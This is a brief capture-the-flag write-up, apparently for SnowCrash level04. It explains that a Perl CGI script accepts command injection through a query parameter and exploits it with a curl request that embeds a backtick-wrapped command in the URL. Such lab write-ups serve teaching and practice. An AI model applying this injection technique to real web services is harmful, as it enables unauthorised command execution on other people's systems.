 # Find the password of Flag04

## First check :
Home directory : \[✓\] not empty.

```
$ ls
$ level04.pl

```
## Deeper check :

`cat level04.pl`

In the perl file, we noticed that there is a possibility to inject a command in the param.

`curl 'localhost:4747?x=`getflag`'`



## TADAAAAAAA, (oh already.) It's ... 
[The next level flag](https://github.com/XD-OB/snowcrash/blob/master/level04/flag)

_tobecontinued_